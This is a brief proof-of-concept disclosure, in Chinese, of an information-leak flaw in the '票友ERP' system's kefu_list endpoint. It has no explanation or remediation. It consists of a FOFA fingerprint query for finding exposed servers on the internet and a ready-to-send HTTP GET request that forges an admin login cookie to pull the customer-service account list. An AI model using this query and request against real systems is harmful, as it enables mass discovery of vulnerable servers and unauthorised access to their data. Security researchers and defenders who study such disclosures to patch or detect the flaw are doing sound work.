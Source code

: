 票友ERP系统kefu_list存在信息泄露

fofa

(body="css/sexybuttons.css" && body="Ajax/confirm.ashx") || title="票友ERP"||body="tickets/intCity.css"

poc

GET /json_db/kefu_list.aspx?stype=0&_search=false&nd=1751246532981&rows=25&page=1&sidx=id&sord=asc HTTP/1.1
Host: <target-host>
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3029.68 Safari/537.36
Cookie: pyerpcookie=loginname=admin